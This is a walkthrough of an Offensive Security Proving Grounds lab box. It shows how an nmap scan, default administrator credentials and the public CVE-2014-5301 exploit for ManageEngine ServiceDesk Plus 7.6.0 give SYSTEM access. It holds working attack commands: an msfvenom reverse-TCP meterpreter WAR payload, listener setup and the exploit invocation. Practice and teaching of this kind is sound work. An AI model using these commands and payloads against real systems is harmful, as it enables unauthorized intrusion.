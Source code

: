 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Performing a `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- 192.168.62.43
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 11:29 EST
Nmap scan report for 192.168.62.43
Host is up (0.00052s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 124.22 seconds

$ nmap -Pn -p3389,8080 -sV -O 192.168.62.43
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 11:32 EST
Nmap scan report for 192.168.62.43
Host is up (0.00043s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:BF:F0:40 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone
Running: Microsoft Windows 2008|8.1|7|Phone|Vista
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_vista::- cp>
OS details: Microsoft Windows Server 2008 R2 or Windows 8.1, Microsoft Windows 7 Professional or Windows 8, Microsoft Windows Embedded Standard 7, Microsoft Windows Phone 7.5 or 8.0, Microsoft Windows Vista SP0 or SP1, Windows Server 2>
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds

```

## web application (port 8080)

> Login mask reveals that `ManageEngine Service Desk Plus 7.6.0` is installed
{: .prompt-info }

---

# exploitation
## default credentials
Googling for standard credentials of `ManageEngine Service Desk Plus` shows that `administrator:administrator` is set as default.

![default credentials](images/helpdesk1.png)

> Default credentials are working here!
{: .prompt-info }

## public exploits

There are public exploits available which allow an authenticated remote code execution.  
The exploit we are using can be found here: [CVE-2014-5301](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

```python
#!/usr/bin/python3

# This script exploits the directory traversal vulnerability in
# ManageEngine ServiceDesk Plus. It has been tested on version 7.6.0.
# See also https://www.cvedetails.com/cve/CVE-2014-5301/

# Use msfvenom to create a war file with meterpreter payload
# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war
#
# or with a reverse TCP shell
# msfvenom -p java/shell_reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war

# Before executing the script start the meterpreter handler
# meterpreter
#   use multi/handler
#   set payload java/meterpreter/reverse_tcp
#   set LHOST 192.168.56.108
#   run
#
# or start netcat listener on LPORT
# nc -nlvp 4444

# Script usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE
# HOST: target host
# PORT: target port
# USERNAME: a valid username for ManageEngine ServiceDesk Plus
# PASSWORD: the password for the user
# WARFILE: a war file containing the mallicious payload
...
```

## use the exploit
### generate the web shell
```bash
$ msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.62.200 LPORT=4444 -f war > shell.war
```

### start the `meterpreter` listener
```bash
$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.62.200
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.62.200:4444 
```

### fire the exploit
```bash
$ python3 CVE-2014-5301.py 192.168.62.43 8080 administrator administrator shell.war
```

### check for meterpreter session
```bash
...
[*] Started reverse TCP handler on 192.168.62.200:4444 
[*] Sending stage (58060 bytes) to 192.168.62.43
[*] Meterpreter session 1 opened (192.168.62.200:4444 -> 192.168.62.43:49182 ) at 2022-01-03 11:58:12 -0500

meterpreter > 
```

> It worked! We got a shell.
{: .prompt-info }

---

# post exploitation
## get the flag
```bash
meterpreter > getuid
Server username: SYSTEM
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\ManageEngine\ServiceDesk\bin>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
0******************************4
```

Pwned! <@:-)
